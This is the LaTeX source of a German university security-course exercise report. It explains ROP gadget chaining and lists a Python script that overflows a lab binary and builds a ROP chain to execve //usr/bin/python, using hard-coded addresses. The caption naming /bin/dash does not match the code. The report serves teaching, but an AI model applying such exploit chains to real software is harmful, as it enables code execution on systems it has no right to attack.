\documentclass[]{scrreprt}
\usepackage{listings}
\usepackage{graphicx}
\lstset{numbers=left}
%opening
\title{Systemsicherheit - 5. Übung}
\author{Dennis Rotärmel, Niklas Entschladen, Tobias Ratajczyk, Gruppe Q}

\begin{document}

\maketitle
\chapter{Verketten von ROP-Gadgets}
Zunächst verschiebt das erste Gadget den ESP und verändert einen Wert auf 0, und zwar die Zelle, wo sich die $\backslash$x90 Bytes befinden. Die zweiten $\backslash$x90 Bytes werden durch \texttt{pop esi} aus dem Stack entnommen, daher darf hier keine Instruktion stehen.
\begin{figure}[h]
	\centering
	\includegraphics[width=01.0\textwidth]{figure/ropchain.png}
	\caption{ROP-Chain um /bin/dash auszuführen}
\end{figure}
\chapter{ROP-basierter Exploit}
Folgender Code liefer die ROP-Chain (\texttt{ropChain.py}):
\begin{lstlisting}[frame=single]
rop = ''
rop += 'A'*112
	
#pop esi; -> esi zeigt auf die 0xffffce70 im Stack!
rop += '\xd8\x96\x04\x08' 
rop += '\x70\xce\xff\xff'
	
#pop eax; pop edx; pop ebx;
#der String soll im eax stehen, die x90 bytes sind padding Bytes
rop += '\xe4\x5d\x05\x08'
rop += '//us'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'

#mov dword ptr [esi], eax; add esp, 4; pop ebx; pop esi;
#schreibe den String Stueck fuer Stueck in den Stack rein, 
#der Pointer vom ESI wird dabei um 4 erhoeht 
#x90 Bytes = Padding
rop += '\x40\x57\x05\x08'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'
rop += '\x74\xce\xff\xff'

#pop eax; pop edx; pop ebx;
#der String soll im eax stehen, die x90 bytes sind padding Bytes
rop += '\xe4\x5d\x05\x08'
rop += 'r/bi'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'
	
#mov dword ptr [esi], eax; add esp, 4; pop ebx; pop esi;
#schreibe den String Stueck fuer Stueck in den Stack rein, 
#der Pointer vom ESI wird dabei um 4 erhoeht 
#x90 Bytes = Padding	
rop += '\x40\x57\x05\x08'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'
rop += '\x78\xce\xff\xff'

#pop eax; pop edx; pop ebx;
#der String soll im eax stehen, die x90 bytes sind padding Bytes
rop += '\xe4\x5d\x05\x08'
rop += 'n/py'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'

#mov dword ptr [esi], eax; add esp, 4; pop ebx; pop esi;
#schreibe den String Stueck fuer Stueck in den Stack rein, 
#der Pointer vom ESI wird dabei um 4 erhoeht 
#x90 Bytes = Padding
rop += '\x40\x57\x05\x08'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'
rop += '\x7c\xce\xff\xff'

#pop eax; pop edx; pop ebx;
#der String soll im eax stehen, die x90 bytes sind padding Bytes
rop += '\xe4\x5d\x05\x08'
rop += 'thon'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'
	
#mov dword ptr [esi], eax; add esp, 4; pop ebx; pop esi;
#schreibe den String Stueck fuer Stueck in den Stack rein, 
#der Pointer vom ESI wird dabei um 4 erhoeht 
#x90 Bytes = Padding
rop += '\x40\x57\x05\x08'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'
rop += '\x80\xce\xff\xff'
	
#xor eax, eax; eax = 0 setzen
rop += '\xd0\x5e\x05\x08'

#mov dword ptr [esi], eax; add esp, 4; pop ebx; pop esi;
#Wert von Adresse des ESI-Pointers auf 0 setzen
#x90 = padding
rop += '\x40\x57\x05\x08'
rop += '\x90\x90\x90\x90'
rop += '\x90\x90\x90\x90'
rop += '\x84\xce\xff\xff'

#cdq; edx = 0setzen
rop += '\xf5\xce\x05\x08'

#pop ebx;
#ebx zeigt nun auf den String '//usr/bin/python'
rop += '\xc9\x81\x04\x08'
rop += '\x70\xce\xff\xff'

#eax auf 0xb setzen
#inc eax;
rop += '\xea\xbc\x07\x08'
rop += '\xea\xbc\x07\x08'
rop += '\xea\xbc\x07\x08'
rop += '\xea\xbc\x07\x08'
rop += '\xea\xbc\x07\x08'
rop += '\xea\xbc\x07\x08'
rop += '\xea\xbc\x07\x08'
rop += '\xea\xbc\x07\x08'
rop += '\xea\xbc\x07\x08'
rop += '\xea\xbc\x07\x08'
rop += '\xea\xbc\x07\x08'
	
#xor ecx, ecx; int 0x80
#ecx leeren und interrupt ausfuehren
rop += '\x21\xec\x06\x08'

print(rop)
\end{lstlisting}
Eingabe von \texttt{./rop "\$(python ropChain.py)"} in der Shell liefert:
\begin{figure}[h]
	\centering
	
\includegraphics[width=1.0\textwidth]{figure/hello}
	\caption{Ergebnis vom Ausführen des Codes \texttt{ropChain.py}}
\end{figure}
\end{document}
